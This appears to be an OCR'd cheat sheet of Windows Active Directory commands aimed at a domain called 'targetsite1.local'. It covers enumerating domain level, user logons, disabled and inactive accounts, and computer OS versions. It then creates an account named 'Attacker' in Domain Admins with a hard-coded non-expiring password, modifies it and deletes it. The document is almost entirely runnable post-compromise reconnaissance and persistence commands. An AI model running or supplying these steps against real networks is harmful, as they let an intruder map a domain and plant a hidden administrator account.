# Determine domain functional level
dsquery * "cn=partitions,cn=configuration,dc=targetsite1,dc=local" -filter "(|(systemFlags=3)(systemFlags=-2147483648))" -attr msDS-Behavior-Version Name dnsroot ntmixeddomain NetBiosName

# Query user last logon times
dsquery * "DC=targetsite1,DC=local" -scope subtree -filter "(&(lastlogontimestamp=*)(objectclass=user))" -attr lastlogontimestamp samid cn

# Convert NT timestamp to human readable time
w32tm /ntte <NT_timestamp>

# Enumerate disabled user accounts
dsquery user "dc=targetsite1,dc=local" -disabled

# Enumerate users inactive for the specified number of week (2 weeks in this example)
dsquery user -inactive 2

# Enumerate domain computers with operating system and service pack information
# Can filter for different OSes by changing (or eliminating) the "(operatingsystem=Windows*)"
# part of the filter.
dsquery * "dc=targetsite1,dc=local" -scope subtree -filter "(&(objectclass=computer)(objectcategory=computer)(operatingsystem=Windows*))" -attr cn operatingsystem operatingsystemservicepack

# Create a domain user that is a member of the domain admins group
dsadd user "cn=Attacker,cn=Users,DC=targetsite1,DC=local" -memberof "cn=Domain Admins,cn=USers,DC=targetsite1,DC=local" -samid attacker -pwd P@ssw0rd -pwdneverexpires yes

# Modify a domain user account
dsmod user "cn=Attacker,cn=Users,DC=targetsite1,DC=local" -desc "Is 1337"

# Remove a domain user account
dsrm -subtree -noprompt "cn=Attacker,cn=Users,DC=targetsite1,DC=local"
